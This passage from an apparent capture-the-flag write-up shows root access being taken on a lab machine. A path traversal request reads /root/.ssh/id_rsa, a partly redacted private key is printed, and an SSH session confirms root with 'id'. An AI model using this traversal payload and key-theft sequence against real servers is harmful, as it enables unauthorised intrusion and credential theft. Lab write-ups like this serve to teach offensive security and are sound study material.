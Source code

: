 <figure><img src="../../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>

For a proper shell, we can try getting files under `/root/.ssh/`

`GET /assets/../../../../../../../../../../../../../../../root/.ssh/id_rsa` gives us the private key.

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAsFbYzGxskgZ6YM1LOUJsjU66WHi8Y2ZFQcM3G8VjO+NHKK8P0hIU
UbnmTGaPeW4evLeehnYFQleaC9u//vciBLNOWGqeg6Kjsq2lVRkAvwK2suJSTtVZ8qGi1v
j0wO69QoWrHERaRqmTzranVyYAdTmiXlGqUyiy0I7GVYqhv/QC7jt6For4PMAjcT0ED3Gk
HVJONbz2eav5aFJcOvsCG1aC93Le5R43Wgwo7kHPlfM5DjSDRqmBxZpaLpWK3HwCKYITbo

<< SNIP >>

OlOfMO4xkLwj4rPIcqbGzi0Ant/O+V7NRN/mtx7xDL7oBwhpRDE1Bn4ILcsneX5YH/XoBh
1arrDbm+uzE+QNAAAADnJvb3RAY2hlbWlzdHJ5AQIDBA==
-----END OPENSSH PRIVATE KEY-----
```

### SHELL

```bash
╰─➤  chmod 400 root_id_rsa 
                             
╰─➤  ssh -i root_id_rsa root@10.129.126.21   
<SNIP>
Last login: Fri Oct 11 14:06:59 2024
root@chemistry:~# id
uid=0(root) gid=0(root) groups=0(root)
root@chemistry:~# 
```

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_heapbytes' still pwning
